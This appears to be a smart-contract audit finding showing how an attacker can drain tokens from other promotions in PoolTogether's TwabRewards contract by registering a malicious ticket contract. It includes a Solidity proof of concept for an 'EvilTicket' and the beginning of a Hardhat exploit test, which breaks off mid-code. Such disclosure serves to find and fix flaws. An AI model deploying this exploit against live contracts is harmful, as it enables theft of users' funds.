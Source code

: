 It allows an attacker to retrieve all the tokens of each promotions.

#### Analysis

Anyone can create a new promotion using `createPromotion()`. An attacker can create a new malicious promotion with the following parameters:

*   the address of a malicious ticket smart contract
*   the token address from the targeted promotion(s)
*   optionally, `_numberOfEpochs` equal to 0 to create this promotion for free

The only verification made on the ticket address given by [\_requireTicket()](https://github.com/pooltogether/v4-periphery/blob/master/contracts/TwabRewards.sol#L230-L244) is that the smart contract must implement the `ITicket` interface.

The attacker can then call `claimRewards()` with its wallet address, the malicious promotion id and a single \_epochId for the sake of clarity.

1.  `_calculateRewardAmount()` is first called to get the reward amount with the following formula `(_promotion.tokensPerEpoch * _ticket.getAverageBalanceBetween()) / _ticket.getAverageTotalSuppliesBetween()`. The malicious ticket can return an arbitrary  `_averageBalance` and an `_averageTotalSupplies` of 1, leading to an arbitrary large reward amount.

2.  `_promotion.token.safeTransfer(_user, _rewardsAmount)` is called. It transfers the amount of tokens previously computed to the attacker.

The attacker receives the tokens of other promotions without having spent anything.

#### Proof of Concept

The malicious smart contract is a copy/paste of [TicketHarness.sol](https://github.com/pooltogether/v4-core/blob/master/contracts/test/TicketHarness.sol) and [Ticket.sol](https://github.com/pooltogether/v4-core/blob/master/contracts/Ticket.sol) with the following changes:
```solidity
/// @inheritdoc ITicket
function getAverageTotalSuppliesBetween(
    uint64[] calldata _startTimes,
    uint64[] calldata _endTimes
) external view override returns (uint256[] memory) {
    uint256[] memory _balances = new uint256[](1);
    _balances[0] = uint256(1);
    return _balances;
}

/// @inheritdoc ITicket
function getAverageBalanceBetween(
    address _user,
    uint64 _startTime,
    uint64 _endTime
) external view override returns (uint256) {
    return 1337;
}
```

The test for HardHat is:
```js
describe('exploit()', async () => {
    it('this shouldnt happen', async () => {
        const promotionIdOne = 1;
        const promotionIdTwo = 2;

        await expect(createPromotion(ticket.address))
            .to.emit(twabRewards, 'PromotionCreated')
            .withArgs(promotionIdOne);
        
        let evilTicketFactory = await getContractFactory('EvilTicket');
        let evilTicket = await evilTicketFactory.deploy('EvilTicket', 'TICK', 18, wallet1.address);
        let createPromotionTimestamp = (await ethers.provider.getBlock('latest')).timestamp;
```